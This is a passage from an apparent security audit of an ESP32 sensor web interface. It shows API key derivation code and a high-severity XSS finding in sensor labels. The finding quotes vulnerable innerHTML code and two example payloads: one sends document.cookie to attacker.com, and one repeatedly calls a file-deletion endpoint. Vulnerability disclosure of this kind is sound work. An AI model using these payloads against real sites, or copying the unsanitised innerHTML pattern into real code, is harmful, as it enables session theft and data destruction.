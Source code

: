 ```cpp
String getAPIKey() {
    String encryptedKey = preferences.getString("api_key_enc", "");
    return decryptWithDeviceKey(encryptedKey);
}

// Use device-specific key derivation
String generateDeviceAPIKey() {
    // Combine device MAC, serial, and secret
    uint64_t mac = ESP.getEfuseMac();
    String deviceID = String((uint32_t)(mac >> 32), HEX) + 
                     String((uint32_t)mac, HEX);
    
    // HMAC-SHA256 based key derivation
    String apiKey = hmac_sha256(SECRET_SALT, deviceID);
    return apiKey;
}
```

---

##  HIGH Severity Vulnerabilities

### 9. **Cross-Site Scripting (XSS) in Sensor Labels**

**Severity:**  HIGH  
**CWE:** CWE-79 (Cross-site Scripting)  
**CVSS Score:** 7.1 (High)

**Location:** Labels page and main display

```javascript
// Vulnerable code in webpage
data.sensors.forEach(sensor => {
  const sensorDiv = document.createElement("div");
  sensorDiv.className = "sensor";
  // NO SANITIZATION - DIRECT HTML INJECTION!
  sensorDiv.innerHTML = `${sensor.label}      ${sensor.reading_value}`;
  sensorsDiv.appendChild(sensorDiv);
});
```

**Impact:**
- **SESSION HIJACKING**: Steal admin session tokens
- **CREDENTIAL THEFT**: Capture user inputs
- **MALWARE DELIVERY**: Inject malicious scripts
- **UI MANIPULATION**: Deface interface or phish users

**Attack Example:**
```json
// Update label with XSS payload
POST /update-labels
{
  "28FF47AC6B17041F": "<img src=x onerror='fetch(\"http://attacker.com/?cookie=\"+document.cookie)'>Kitchen Temp"
}

// Or more sophisticated
{
  "28FF47AC6B17041F": "<script>setInterval(()=>{fetch('/delete-file?file=data.json')},5000)</script>Temp"
}
```
